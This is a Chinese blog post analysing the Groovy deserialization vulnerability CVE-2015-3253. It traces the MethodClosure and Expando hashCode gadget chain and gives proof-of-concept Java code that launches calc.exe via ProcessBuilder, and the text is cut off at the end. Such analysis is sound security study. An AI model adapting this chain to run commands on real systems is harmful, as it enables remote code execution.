

# Groovy 反序列化漏洞分析(CVE-2015-3253) - magic_zero - 博客园

> 原文：[`www.cnblogs.com/magic-zero/p/9755413.html`](https://www.cnblogs.com/magic-zero/p/9755413.html)

## **0x00 前言**

 Java 反序列化的漏洞爆发很久了，此前一直想学习一下。无奈 Java 体系太过于复杂，单是了解就花了我很久的时间，再加上懒，就一直拖着，今天恰好有空，参考@iswin 大佬两年前的分析，我自己跟踪了一下流程，并按自己的想法重写了一下 POC，在此做个记录。

## **0x01 漏洞环境搭建**

首先我们需要明确的是，该漏洞影响的范围是 Groovy 1.7.0-2.4.3。我们借助于 Idea 构建一个空白的 maven 项目，然后配置 pom.xml 文件，添加如下依赖：

```
    <dependencies>
        <dependency>
            <groupId>org.codehaus.groovy</groupId>
            <artifactId>groovy</artifactId>
            <version>2.4.1</version>
        </dependency>
    </dependencies>
```

等 Idea 帮我们导入所需要的依赖库以后，我们就可以开始分析了。

## **0x02 不安全的对象方法调用**

在搭建好漏洞环境之后我们定位到漏洞现场，在 org.codehaus.groovy.runtime.MethodClosure 类中存在如下代码：

```
    protected Object doCall(Object arguments) { return InvokerHelper.invokeMethod(this.getOwner(), this.method, arguments);
    }
```

熟悉 Java 反射机制的话应该不难猜出 doCall 方法动态调用了指定对象的指定方法，而实际上该类的描述也恰好证实了这一点。我们继续跟进 invokeMethod 方法，org.codehaus.groovy.runtime.invokeHelper 类:

```
    public static Object invokeMethod(Object object, String methodName, Object arguments) { if (object == null) {
            object = NullObject.getNullObject();
        } if (object instanceof Class) {
            Class theClass = (Class)object;
            MetaClass metaClass = metaRegistry.getMetaClass(theClass); return metaClass.invokeStaticMethod(object, methodName, asArray(arguments));
        } else { return !(object instanceof GroovyObject) ? invokePojoMethod(object, methodName, arguments) : invokePogoMethod(object, methodName, arguments);
        }
    }
```

从方法的参数表中我们可以看出，第一个参数为调用方法的对象，第二个参数为被调用执行的方法，第三个参数的含义为该方法的所需要的参数。

此时我写了一个测试代码如下：

```
MethodClosure mc = null; try {
    mc = new MethodClosure((new ProcessBuilder("C:/windows/system32/cmd.exe", "/c", "C:/windows/system32/calc.exe")), "start");
```

```
 } catch (IOException e) { e.printStackTrace(); } mc.call();
```

运行后：



## 0x03 寻找利用链

  我们此时已经找到能够触发漏洞的点，接下来需要考虑的问题是，寻找调用 call 方法的地方，实现漏洞的利用。之所以要寻找调用 call 方法的地方是因为 call 方法调用了这里的 doCall 去执行指定对象的指定方法。通过 Idea 我们发现：

```
public int hashCode() {
    Object method = this.getProperties().get("hashCode"); if (method != null && method instanceof Closure) {
        Closure closure = (Closure)method;
        closure.setDelegate(this);
        Integer ret = (Integer)closure.call(); return ret;
    } else { return super.hashCode();
    }
}
```

在 Expando 类 hashCode 方法中调用了 call 方法，这样我们只需要想办法调用 hashCode 方法即可调用其 call 方法。此时我们需要注意，Java 中 hashCode 方法默认会返回该对象在 JVM 中的内存地址。当比较两个对象是否相等的时候，会调用该对象的 hashCode 以及 equals 方法进行比较，如果两个方法返回结果一致，那么比较的结果将返回真。否则，将返回假。

明白了 hashCode 方法以后，我们再来说说 HashMap 的 put 方法。HashMap 是 Java 中的一种 k-v 数据结构，不允许存在相同的 key。所以在 put 时候是会对 key 进行比对判断是否会重复的。此时如果我们可以控制 key 为恶意的对象，那么将会通过 hashCode 方法执行 call 方法，从而执行精心构造的代码。

当然在 Expando 中我们同样发现了 toString 方法存在调用 call 方法的代码，但是这里我们先重点关注 hashCode 方法。

## 0x04 构造利用代码

  经过以上分析， 我们首先构造 Expando 对象，并通过其 setProperty 方法设置属性值的键为 hashCode，值为我们的恶意对象。代码如下：

```
Expando ep = new Expando();

ep.setProperty("hashCode", evilObj);
```

然后通过调用 HashMap 对象的 put 方法触发这里恶意对象。

```
HashMap<Expando, Integer> hashMap = new HashMap<Expando, Integer>();

hashMap.put(ep, 1);
```

然后这里的 evilObj 就很容易了，

```
MethodClosure evilObj = new MethodClosure((new ProcessBuilder("C:/windows/system32/cmd.exe", "/c", "C:/windows/system32/calc.exe")), "start");
```

全部代码如下：

```
// 创建恶意对象
Expando ep = new Expando();

MethodClosure evilObj = new MethodClosure((new ProcessBuilder("C:/windows/system32/cmd.exe", "/c", "C:/windows/system32/calc.exe")), "start");
```

```
// 将恶意 Closure 对象绑定到 Expando 对象 
ep.setProperty("hashCode", evilObj); 

HashMap<Expando, Integer> hashMap = new HashMap<Expando, Integer>(); // 调用 put 方法从而调用 HashCode 方法 
hashMap.put(ep, 1);
```

单步跟踪到 hashCode 方法的时候执行：

